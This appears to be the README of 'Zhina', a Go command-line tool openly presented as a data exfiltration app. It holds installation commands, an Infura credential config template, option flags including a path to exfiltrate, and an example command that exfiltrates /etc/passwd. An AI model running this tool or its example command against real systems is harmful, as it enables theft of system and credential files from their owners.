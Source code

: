 ### Zhina



A simple app to exfiltration data with some features.



## Background

![zhina](zhina.png)


Zhina is a tools for exfiltration information and Dedicated to Mahsa Amini and all Iranian boys and girls


## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhian
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhian.git
   cd zhian
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhian runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64, encodedForTest
--help            Display help
--path string     Path to Exfiltrate
--version         Display version information
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhian --do encode64,encodedForTest --path /etc/passwd` | Exfiltrate password file |



